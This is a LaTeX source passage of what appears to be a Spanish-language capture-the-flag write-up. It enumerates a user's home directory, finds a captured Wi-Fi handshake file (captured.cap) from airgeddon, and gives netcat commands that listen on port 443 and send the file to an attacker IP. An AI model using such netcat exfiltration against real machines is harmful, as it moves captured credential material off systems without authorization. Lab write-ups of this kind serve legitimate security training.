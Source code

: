 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\begin{document}
\hypertarget{investigamos-la-maquina}{%
\subsection*{Investigamos la maquina}\label{investigamos-la-maquina}}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /home}
\CommentTok{#Output}
\ExtensionTok{zeus}

\FunctionTok{ls}\NormalTok{ /home/zeus}
\CommentTok{#Output}
\ExtensionTok{airgeddon}
\end{Highlighting}
\end{Shaded}

\hypertarget{airgeddon.cap-crack-with-aircrack-ng}{%
\subsection*{Airgeddon.cap crack with Aircrack-ng}\label{airgeddon.cap-crack-with-aircrack-ng}}

Airgeddon es una suite de utilidades para hacer auditorias wifi. Entrando en el repertorio airgeddon del usuario zeus encontramos
otro repertorio llamado captured. Filtrando el contenido del directorio aigedon por ficheros \texttt{find\ \textbackslash{}-type\ f} encontramos un fichero
\textbf{captured.cap}

Vamos a transferir el fichero captured.cap a nuestro equipo de attackante

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  En la maquina de attackante

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443 }\OperatorTok{>}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\item
  En el contenedor

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.14.28 443 }\OperatorTok{<}\NormalTok{ captured.cap}
\end{Highlighting}
\end{Shaded}
\end{enumerate}
\end{document}
